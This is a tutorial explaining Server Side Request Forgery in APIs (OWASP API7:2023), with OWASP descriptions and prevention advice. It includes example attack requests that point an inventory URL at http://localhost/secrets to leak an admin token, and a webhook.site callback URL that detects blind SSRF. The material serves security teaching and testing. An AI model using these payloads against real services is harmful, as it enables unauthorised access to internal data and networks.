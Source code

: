 ## Intro

API7:2023 Server Side Request Forgery is a vulnerability that takes place when a user is able to control the remote resources retrieved by an application.  An attacker can use an API to supply their own input, in the form of a URL, to control the remote resources that are retrieved by the targeted server. 

An attacker could supply URLs that expose private data, scan the target's internal network, or compromise the target through remote code execution. SSRF is also number 10 on the 2021 OWASP Top 10 list and is a growing threat to APIs.

## [OWASP Attack Vector Description](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

_Exploitation requires the attacker to find an API endpoint that accesses a URI that’s provided by the client. In general, basic SSRF (when the response is returned to the attacker), is easier to exploit than Blind SSRF in which the attacker has no feedback on whether or not the attack was successful._

## [OWASP Security Weakness Description](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

_Modern concepts in application development encourage developers to access URIs provided by the client. Lack of or improper validation of such URIs are common issues. Regular API requests and response analysis will be required to detect the issue. When the response is not returned (Blind SSRF) detecting the vulnerability requires more effort and creativity._

## [OWASP Impacts Description](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

_Successful exploitation might lead to internal services enumeration (e.g. port scanning), information disclosure, bypassing firewalls, or other security mechanisms. In some cases, it can lead to DoS or the server being used as a proxy to hide malicious activities._

## Summary

Server Side Request Forgery (SSRF) is a vulnerability that takes place when an application retrieves remote resources without validating user input. When an attacker has control over the resources a server requests then they can gain access to sensitive data, or worse, completely compromise a vulnerable host.  

The impact of this vulnerability is that an attacker would be able to leverage the target server to perform and process requests that they supply. Note that bug bounties payouts for SSRF are driven based on the impact that can be demonstrated with a proof of concept. The higher the demonstrated impact, the higher the bounty.

There are two general types of SSRF that are worth noting: In-Band SSRF and Out-of-Band (Blind) SSRF. In-Band SSRF means that the server responds with the resources specified by the end user. If the attacker specifies the payload as [http://google.com](http://google.com/) to a server with an In-Band SSRF vulnerability the server would make the request and respond to the attacker with information served from google.com. Blind SSRF takes place when the attacker supplies a URL and the server makes the request but does not send information from the specified URL back to the attacker. In the case of Blind SSRF, an attacker would need control over a web server that will capture the request from the target to prove that they were able to force the server to make the request.

**Intercepted Request:**

```http
POST api/v1/store/products_

headers…

{

_"inventory":"http://store.com/api/v3/inventory/item/12345"_

}
```
**Attack:**

```http
POST api/v1/store/products
headers…

{

"inventory":"_**_§_****_http://localhost/secrets_****_§"_**

}
```

**Response:**
```http
HTTP/1.1 200 OK  
headers...  
{

**"secret_token":"SecretAdminToken123"**

}
```


# Out-of-Band SSRF Example

Out-of-Band (or Blind) SSRF takes place when a vulnerable server performs a request from user input but does not send a response back to the attacker indicating a successful attack. In other words, the victim server makes the request to the URL specified by the attacker, but the attacker does not receive a direct message back from the victim server. In this case, to know if the request was made an attacker will need to have some control over the web server that is specified in the attack.

**Intercepted Request:**
```http
POST api/v1/store/products

headers…

{

"inventory":"http://store.com/api/v3/inventory/item/12345"

}
```


**Attack**:
```http
POST api/v1/store/products

headers…

{

"inventory:"http://localhost/secrets"

} 
```


**Response:**
```http
HTTP/1.1 200 OK  
headers...  
{}
```

In this case, the response is returned and we do not have any indication that the server is vulnerable. Instead of [http://localhost/secrets](http://localhost/secrets), an attacker can leverage the URL to a web server that will let them see if a request is actually made. Burp Suite Pro has a great tool called Burp Suite Collaborator. Collaborator can be leveraged to set up a web server that will provide us with the details of any requests that are made to our random URL. 

![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/UHz28Z8BT8i3ZOFGS1xg_ssrf2.PNG)

By navigating to webhook.site a random URL will be created. The randomized URL can be used as a payload and track to see if any requests are made to the site from the vulnerable API. An out-of-band SSRF attack would look more like this.

**Attack**:
```http
POST api/v1/store/products

headers…

{

"inventory":"[https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0](https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0)§"`

}
```


Once the request is sent the third party site can be checked for any new requests.

![](https://kajabi-storefronts-production.kajabi-cdn.com/kajabi-storefronts-production/site/2147573912/products/ZJM875zQSICtbtxnT6W1_ssrf3.PNG)

This demonstration of SSRF was done using a third-party site that captures the IP address of the server that sent the request. This process will demonstrate that an API is in fact vulnerable to out-of-band SSRF.

## [OWASP Preventative Measures](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

- _Isolate the resource fetching mechanism in your network: usually, these features are aimed to retrieve remote resources and not internal ones._
- _Whenever possible, use allow lists of_
    - _Remote origins users are expected to download resources from (e.g. Google Drive, Gravatar, etc.)_
    - _URL schemes and ports_
    - _Accepted media types for a given functionality_
- _Disable HTTP redirections._
- _Use a well-tested and maintained URL parser to avoid issues caused by URL parsing inconsistencies._
- _Validate and sanitize all client-supplied input data._
- _Do not send raw responses to clients._

## Additional Resources

- [Server Side Request Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [Server-Side Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
- [URL confusion vulnerabilities in the wild: Exploring parser inconsistencies, Snyk](https://snyk.io/blog/url-confusion-vulnerabilities/)
- [Web Security Academy: SSRF](https://portswigger.net/web-security/ssrf)